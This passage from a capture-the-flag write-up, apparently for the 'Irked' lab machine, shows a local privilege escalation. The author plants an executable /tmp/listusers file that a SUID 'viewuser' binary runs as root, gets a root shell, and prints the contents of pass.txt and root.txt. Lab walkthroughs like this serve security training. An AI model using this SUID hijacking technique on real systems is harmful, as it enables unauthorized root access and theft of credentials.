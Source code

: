 It throws an error saying that `sh` can’t find `/tmp/listusers`.

```bash
echo "test" > /tmp/listusers
viewuser
```

```
djmardov@irked:/$ echo "test" > /tmp/listusers
djmardov@irked:/$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2022-10-21 22:56 (:0)
sh: 1: /tmp/listusers: Permission denied

```

Permissions - the only thing that root can’t do is execute. So I’ll add it, and change it to a command:

```bash
chmod +x /tmp/listusers
echo id > /tmp/listusers
viewuser
```

```
djmardov@irked:/$ chmod +x /tmp/listusers 
djmardov@irked:/$ echo id > /tmp/listusers
djmardov@irked:/$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2022-10-21 22:56 (:0)
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)

```

There’s execution. I’ll change the command to get a shell:

```bash
echo sh > /tmp/listusers
viewuser
```

Excelllent! we will get the root privileges.

```
djmardov@irked:/$ echo sh > /tmp/listusers
djmardov@irked:/$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2022-10-21 22:56 (:0)
# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
# whoami
root
# cd /root
# ls
pass.txt  root.txt
# cat pass.txt
Kab6h+m+bbp2J:HG
# cat root.txt
71a1d681028cb266936bb04972d080b4

```
